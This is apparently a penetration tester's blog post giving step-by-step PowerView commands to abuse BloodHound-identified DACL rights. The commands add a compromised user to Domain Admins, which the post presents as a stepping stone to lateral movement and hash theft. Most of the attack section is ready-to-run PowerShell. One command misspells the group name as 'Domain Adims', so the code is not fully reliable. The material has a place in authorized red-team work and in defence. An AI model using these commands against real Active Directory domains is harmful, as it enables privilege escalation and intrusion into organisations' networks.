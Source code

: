 ```yaml
---
layout: post
author: Chris
title: "Quick Pointer: Abusing DACL Fumbles using PowerView"
date: 2024-12-12
tags: powershell,AD,PowerView,Bloodhound
---
```

Ever come across an edge description in Boodhound on DACL abuse?  They tend to look something like the following:

![](/assets/img/2024-12-11_10-09.png)
The Windows abuse instructions on the edge tend to offer two ways to proceed, either using *net group* from net.exe or PowerView.  I've always used the net.exe method, but they recommend PowerView because the opsec for net.exe is challenging. 

![](/assets/img/2024-12-12_08-59.png)
I was curious to play around with PowerView's *Add-DomainGroupMember* to have another option in my toolbox and find out more about this improved opsec.  Unfortunately, and I've run into this Bloodhound description a few times to know that the steps for the PowerView method aren't quite as clearly laid out in the Bloodhound description as they could be.  I don't think it's Bloodhound's fault, as the [original instructions](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) aren't effusive by any means.


## Adding an Existing User to Domain Admins by Modifying the DACL
To make it clearer, here are the steps to follow on a compromised domain-joined target.  This will add an existing user (for which you have obtained a password), who already has DACL privileges over the Domain Admins group, to the Domain Admins group itself.  For the sake of this example, lets say the user credentials we've compromised and want to add to Domain Admins is `paul.atreides:spicyworm` on a domain with a short name of *arrakis*.

First, it might pay to ensure you're authenticated to the Domain Controller as a member of the domain.  Set up the creds as variables in Powershell and then use *Add-DomainObjectAcl* to authenticate.
```
$SecPassword = ConvertTo-SecureString 'spicyworm' -AsPlainText -Force
```

```
$Cred = New-Object System.Management.Automation.PSCredential('arrakis\paul.atreides', $SecPassword)
```

```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Domain Admins" -PrincipalIdentity paul.atreides -Rights WriteMembers
```

I'm no PowerShell expert, but you probably don't need to reenter the following two variables again.  I'm doing so for the sake of effectiveness.
```
$SecPassword = ConvertTo-SecureString 'spicyworm' -AsPlainText -Force
```

```
$Cred = New-Object System.Management.Automation.PSCredential('arrakis\paul.atreides', $SecPassword)
```

Now add the existing domain user, paul.atreides, who has DACL privileges over Domain Admins group, to the Domain Admins group.
```
Add-DomainGroupMember -Identity 'Domain Adims' -Members 'paul.atreides' -Credential $Cred
```

Now you can verify whether the operation succeeded.
```
Get-DomainGroupMember -Identity 'Domain Admins'
```


## Moving Forward
If successful, from there your options should open up a bit to lateral movement, or obtaining hashes among other possibilities.  
